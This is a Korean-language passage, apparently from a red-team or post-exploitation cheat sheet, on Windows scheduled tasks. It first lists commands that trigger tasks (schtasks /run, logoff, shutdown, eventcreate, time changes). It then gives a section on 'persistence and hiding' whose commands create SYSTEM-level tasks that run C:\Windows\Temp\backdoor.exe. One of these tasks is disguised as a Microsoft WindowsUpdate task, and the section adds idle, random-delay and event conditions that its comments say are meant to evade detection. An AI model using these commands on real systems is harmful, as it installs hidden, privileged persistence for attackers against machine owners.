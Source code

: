 ### ⚡ 스케줄된 작업 실행 트리거링

```cmd
:: 1. 수동으로 작업 즉시 실행
schtasks /run /tn "TaskName"

:: 2. 작업 상태 모니터링
schtasks /query /tn "TaskName" /fo LIST /v | findstr "Status\|Last Run Time\|Last Result"

:: 3. 로그오프/로그온 트리거 작업 실행
logoff
:: 다시 로그인

:: 4. 시스템 재시작 트리거 작업 실행
shutdown /r /t 0

:: 5. 특정 이벤트 발생시키기 (이벤트 기반 작업용)
eventcreate /t information /id 1000 /l application /so "TestApp" /d "Test event for task trigger"

:: 6. 대기 상태 진입 (idle 트리거 작업용)
rundll32.exe powrprof.dll,SetSuspendState 0,1,0

:: 7. AC 전원 연결/해제 시뮬레이션 (배터리 트리거 작업용)
:: 물리적으로는 불가능하지만 WMI 이벤트로 시뮬레이션 가능

:: 8. 사용자 로그온 이벤트 트리거
runas /user:OtherUser cmd

:: 9. 시간 변경으로 시간 기반 작업 트리거
time 23:59
:: 시간을 작업 실행 시간으로 변경

:: 10. 프로세스 시작/종료 이벤트 트리거
start notepad
taskkill /im notepad.exe /f
```

### 🔧 스케줄된 작업 지속성 및 은닉

```cmd
:: 1. 정상적인 시스템 작업으로 위장
schtasks /create /tn "\Microsoft\Windows\WindowsUpdate\Automatic App Update" /tr "C:\Windows\Temp\backdoor.exe" /sc daily /st 03:00 /ru SYSTEM

:: 2. 여러 트리거를 가진 작업 생성
schtasks /create /tn "SystemMaintenance" /tr "C:\Windows\Temp\backdoor.exe" /sc onstart /ru SYSTEM
schtasks /create /tn "SystemMaintenance2" /tr "C:\Windows\Temp\backdoor.exe" /sc onlogon /ru SYSTEM

:: 3. 조건부 실행으로 탐지 회피
schtasks /create /tn "IdleTask" /tr "C:\Windows\Temp\backdoor.exe" /sc onidle /i 10 /ru SYSTEM

:: 4. 랜덤 시간 지연으로 패턴 회피
schtasks /create /tn "RandomTask" /tr "timeout %RANDOM% & C:\Windows\Temp\backdoor.exe" /sc daily /st 02:00 /ru SYSTEM

:: 5. 다중 액션 작업 (정상 작업 + 악성 작업)
:: XML 파일 생성 필요 (복잡한 작업 정의)

:: 6. 이벤트 기반 실행 (특정 이벤트 발생시에만)
schtasks /create /tn "EventTask" /tr "C:\Windows\Temp\backdoor.exe" /sc onevent /ec Application /mo "*[System[EventID=1000]]" /ru SYSTEM

:: 7. 네트워크 연결 기반 실행
:: 특정 네트워크에 연결될 때만 실행되도록 설정
```